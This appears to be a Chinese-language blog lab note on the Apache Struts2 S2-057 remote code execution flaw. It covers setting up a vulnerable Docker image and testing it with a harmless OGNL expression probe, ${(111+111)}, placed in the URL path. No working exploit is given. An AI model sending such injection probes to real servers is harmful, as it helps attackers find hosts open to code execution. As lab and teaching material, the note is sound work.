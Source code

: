```yaml
---
title: Struts2 远程代码执行漏洞(S2-057)
category: 
- 渗透测试
tags: 
- Pocsuite
- Docker

---
```


### 漏洞概述

- [影响版本](https://cwiki.apache.org/confluence/display/WW/S2-057)

### 漏洞环境搭建

- 拉取镜像到本地

```bash
$ docker pull medicean/vulapps:s_struts2_s2-057
```

- 启动环境

```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-057
#-p 80:8080 前面的 80 代表物理机的端口，可随意指定。
```

![image-20201126144119434](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201126144119434.png)

<!-- more -->

### 漏洞利用

- 访问 `http://你的 IP 地址:端口号/`

![image-20201126144223913](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201126144223913.png)

- Poc

```python
例如目标地址为：http://127.0.0.1:80/
访问 http://127.0.0.1:80/${(111+111)}/actionChain1.action

然后 URL 会变为 : http://127.0.0.1:80/222/register2.action, 其中 222 部分为 ognl 表达式 ${(111+111)} 执行结果。

Exp
```

- exp

暂无

- 利用过程

![bciwb-p8uqr](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020bciwb-p8uqr.gif)

### 参考链接

[references](https://xz.aliyun.com/t/2618)

<!-- more -->